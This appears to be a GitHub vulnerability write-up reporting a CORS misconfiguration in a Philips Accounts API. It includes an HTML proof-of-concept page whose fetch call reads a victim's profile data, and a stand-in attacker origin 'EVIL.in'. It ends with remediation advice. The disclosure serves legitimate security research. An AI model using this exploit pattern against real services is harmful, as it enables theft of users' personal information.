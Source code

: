 # 🔓 Philips Accounts CORS Misconfiguration Vulnerability

## 📌 Summary

A **Cross-Origin Resource Sharing (CORS)** misconfiguration was identified in the Philips Accounts API, allowing malicious websites 🌐 to make authenticated API requests on behalf of a victim 🧑‍💻 and access sensitive personal information 🔐.

## 🛑 Vulnerability Details

The Philips accounts endpoint improperly reflects and allows requests from arbitrary origins, such as:
`Access-Control-Allow-Origin: https://www.EVIL.in`

⚠️ This insecure configuration permits **malicious websites** to make authenticated API requests from the victim’s browser and **read sensitive information**.

### 🧾 Sensitive Information Exposed
- 📧 Full name and email
- 🆔 UID and Global Subject ID
- 🗓️ Consent flags and timestamps
- 🚻 Gender and 🌍 country information
- ✅ Verified email status

## 🧪 Proof of Concept (PoC)

### 1️⃣ Request Crafted in Burp Suite 🐞
A forged `Origin` header was sent with the value `https://www.EVIL.in`.  
The server responded with `Access-Control-Allow-Origin: https://www.EVIL.in`, allowing cross-origin access.

#### 📸 Screenshot:
![IMG_9232](https://github.com/user-attachments/assets/fb1a6e0d-0fb2-4edf-88a9-3ad1b60a62a3)



### 2️⃣ Live Exploit Demonstration 💥
A crafted HTML page hosted on a malicious domain successfully retrieved the victim’s user info.

**💻 Exploit HTML:**  
```html
<!DOCTYPE html>
<html>
<head>
  <title>Philips CORS Exploit</title>
</head>
<body>
  <h2>Exploit Demo</h2>
  <button onclick="exploit()">Get Philips User Info</button>
  <pre id="output"></pre>

  <script>
    async function exploit() {
      try {
        const res = await fetch("<PHILIPS><END-POINT>", {
          method: "POST",
          headers: {
            "Content-Type": "application/json",
            "Authorization": "Bearer <valid_token>"
          },
          body: "{}"
        });

        const data = await res.json();
        document.getElementById("output").textContent = JSON.stringify(data, null, 2);
      } catch (err) {
        document.getElementById("output").textContent = "Error: " + err;
      }
    }
  </script>
</body>
</html>
```

### 📸 Live Exploit Output:
![IMG_9233](https://github.com/user-attachments/assets/4b05d85f-f48b-44db-9dcd-a1d0cecdec8c)

## 📉 Impact

This vulnerability allows any malicious website to:
- 📤 Exfiltrate personal user information from authenticated Philips sessions.
- 📊 Conduct unauthorized data harvesting and identity profiling.
- 🚫 Bypass Same-Origin Policy protections.


## 🛠 Recommendations

- ✅ Implement a strict CORS policy allowing only trusted origins via a whitelist.
- ❌ Avoid reflecting unvalidated Origin headers.
- 🛡 Protect all sensitive endpoints with CSRF and strict CORS controls.
   🔍 Regularly audit APIs for misconfigurations.

## 🧠 What I have Learnt

Every “No” 📉 teaches us something new 📚 and pushes us to come back stronger 💪⚡

**Signing off ✌️**

**[ROHAN S](https://www.linkedin.com/in/rohanscr7123/)** 

(**Aspiring Security Engineer**)


